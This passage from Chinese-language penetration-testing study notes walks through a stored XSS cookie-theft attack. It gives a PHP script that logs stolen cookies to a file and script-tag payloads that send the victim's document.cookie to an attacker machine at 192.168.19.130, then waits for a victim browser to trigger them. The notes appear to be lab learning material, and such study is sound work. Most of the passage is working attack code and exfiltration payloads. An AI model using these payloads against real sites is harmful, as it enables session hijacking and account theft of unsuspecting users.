 2. 构造XSS代码并植入到Web服务器

![XSS存储型获取cookie1](../../../MarkdownImgs/安全技术/渗透测试/安全学习笔记/XSS存储型获取cookie1.png)

cookie_rec.php文件内容：

```php
<?php
	$cookie = $_GET['cookie'];
	$log = fopen("cookie.txt","a");
	fwrite($log,$cookie . "\n");
	fclose($log);
?>
```

将XSS代码植入到Web服务器上：

![XSS存储型注入到Web服务器中](../../../MarkdownImgs/安全技术/渗透测试/安全学习笔记/XSS存储型注入到Web服务器中.png)

```html
XSS代码：

<script>window.open('http://192.168.19.130/cookie_rec.php?cookie='+document.cookie)</script>

# 不完全
<script src="http://192.168.19.130/cookie_rec.php?cookie="+document.cookie></script>
```



3. 等待肉鸡触发XSS代码并将Cookie发送到Kali

